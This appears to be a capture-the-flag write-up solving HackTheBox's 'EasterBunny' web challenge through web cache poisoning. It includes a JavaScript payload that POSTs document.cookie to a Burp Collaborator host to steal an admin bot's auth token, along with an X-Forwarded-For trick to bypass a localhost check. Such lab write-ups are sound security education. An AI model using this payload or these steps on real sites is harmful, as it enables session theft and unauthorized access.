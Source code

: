 ```yaml
---
layout: single
title:  "EasterBunny"
date:   2022-08-28
---
```



It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Get prepared for the attack
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that:
![187313837-93762db5-ebfc-4c99-9f69-132ce594b72c](https://user-images.githubusercontent.com/45040001/188494846-ad18b497-7d7c-4180-b1be-06d2092d45ea.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```

## Attack

So we retreive a lot of informations and they are:
- we find unkeyed inputs for web cache poisoning attack
- we have to poison the last inserted id(last submited letter)
- we have to steal the `authtoken`
- and grab the flag

First step is to setup our HTTP server with all files & directories included
![tt](https://user-images.githubusercontent.com/45040001/188495101-735dd790-a852-48a2-ad49-ec277bba5999.png)

<br>

Right now we are ready to start the whole attack step by step. Fist of all we need to know how many letters are saved in database to inject the last letter `/letters?id=${inserted.lastID}` to find how many letters are seved we can send just a GET requests at `/message/3` and you will get a response with the message of the letter and the counters of the letters. 

So at my situation the last letter is 16 so i have to inject the 17 letter. <br>
Inject values is:
- GET /letters?id=17
- HOST: 127.0.0.1 | because of this piece of code `await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);`
- X-Forwarded-Host: your-ngrok-ip.com

![web_poisoning](https://user-images.githubusercontent.com/45040001/187318535-9fc0269b-fac7-46a6-bbf9-3f048cedcd05.png)

Send the injection requests and instantly we have to submit a new letter and this letter will be injected .
![submit_new_letter](https://user-images.githubusercontent.com/45040001/187318584-250a390e-745c-4d8f-b3e1-7f5560ca3c8c.png)


after a few seconds we will successfully get the admin secret(authtoken) in our burpcollaborator.
![auth_cookie](https://user-images.githubusercontent.com/45040001/187318627-f3192d7b-3d86-4010-8e6e-0c298ca62a65.png)

The next step is to bypass localhost restriction and i do that with `X-Fowarded-For` HTTP Header as i show below.

![get_flag_1](https://user-images.githubusercontent.com/45040001/187318708-ded902f8-0e25-4926-897e-8b185b125da4.png)

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt) <br>

![get_flag_2](https://user-images.githubusercontent.com/45040001/187318715-5c3adc65-87fd-4c8f-ba4f-b9ee3676de8b.png)

![correct_payload](https://user-images.githubusercontent.com/45040001/187318812-fb0b7c39-bb01-4797-8f2d-690a260b33d3.png)

grab the flag. <br>
![final_flag](https://user-images.githubusercontent.com/45040001/187318733-85d968a5-fe2a-43b5-b121-949d8528c19f.png)



